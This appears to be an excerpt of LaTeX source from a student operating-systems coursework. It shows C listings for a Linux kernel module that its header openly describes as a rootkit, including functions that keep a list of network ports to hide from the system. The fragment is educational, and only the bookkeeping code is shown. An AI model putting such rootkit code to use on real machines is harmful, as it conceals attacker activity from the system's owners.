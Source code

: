 \begin{lstlisting}[language=c,caption={Сокрытие сетевых сокетов, файл реализации},label=lst:net_c]
#include "../inc/net.h"

void net_port_hide(unsigned int port) {
    struct hidden_port *hp;

    hp = kmalloc(sizeof(*hp), GFP_KERNEL);
    if (!hp)
        return;

    hp->port = port;
    list_add(&hp->list, &hidden_port_list);
}

void net_port_show(unsigned int port) {
    struct hidden_port *hp;

    list_for_each_entry (hp, &hidden_port_list, list) {
        if (hp->port == port) {
            list_del(&hp->list);
            kfree(hp);
            return;
        }
    }
}

int is_port_hidden(unsigned int port) {
    struct hidden_port *hp;

    list_for_each_entry (hp, &hidden_port_list, list)
        if (hp->port == port)
            return 1;

    return 0;
}

void toggle_port_invisability(unsigned int port) {
    if (is_port_hidden(port))
        net_port_show(port);
    else
        net_port_hide(port);
}
\end{lstlisting}

\begin{lstlisting}[language=c,caption={Загружаемый модуль ядра, заголовочный файл},label=lst:rootkit_h]
#ifndef OSCW_FNROOTKIT_H_
#define OSCW_FNROOTKIT_H_

#include <linux/init.h>
#include <linux/module.h>
#include <linux/kernel.h>

MODULE_LICENSE("GPL");
MODULE_AUTHOR("Faris Nabiev ICS7-73B");
MODULE_DESCRIPTION(
    "LKM for subject \"Operating systems\" coursework. "
    "Implementation of a rootkit"
);

#define MODULE_NAME "fnrootkit"

#endif // OSCW_FNROOTKIT_H_
\end{lstlisting}

